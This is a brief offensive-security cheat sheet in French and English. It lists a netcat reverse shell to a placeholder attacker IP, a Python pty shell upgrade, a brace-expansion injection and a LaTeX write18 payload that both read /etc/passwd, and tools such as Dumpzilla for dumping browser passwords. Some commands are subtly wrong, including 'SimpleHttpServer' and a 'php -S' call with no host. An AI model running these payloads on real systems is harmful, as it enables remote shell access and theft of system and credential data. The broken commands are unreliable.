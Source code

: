 ReverseShell:
```bash
# From local machine
nc -lvp 1234
# From remove machine
nc <ip_attaquant> 1234 /bin/sh
```

InteractiveShell:
```bash
python -c 'import pty; pty.spawn("/bin/bash");'
```

Injection Code:
```
{cat,/etc/passwd}
```

Make a quick http server:
```bash
python -m SimpleHttpServer 8080 ; php -S 8080
```


## Code vulnerabilities

### PHP Injection

*Goals:* Extract PHP data from a form or a posted image

```php
var_dump(serialize($obj));
```

### LaTeX Injection

*Goals:* Les documents LaTex peuvent contenir des commandes système

```bash
\immediate\write18{cat /etc/passwd | base64 > /tmp/ouned.tex}
# pour sécuriser: option -no-shell-escape [hacking-with-latex](https://0day.work/hacking-with-latex) ; [pdflatex](https://linux.die.net/man/1/pdflatex)
```

### Binary code analysis

*Goals:* Decompiler des applications binaires

* [ida-free](https://hex-rays.com/ida-free/) The free binary code analysis tool to kickstart your reverse engineering experience.

### Resources

* [ripstech.com](https://ripstech.com) Validation sécurité PHP
* strings: Permet de sortir les caractères affichables d’un fichier ou d’un flux
* binwalk: Permet d’identifier les codes/données incorporés dans le fichier et et rechercher les images, binaires, code exécutable, ...
* hd, Ghex: Outil de manipulation hexadécimal d'une image
* Dumpzilla: Outil manipulant les données de profiles firefox (dump password, historique, ...)
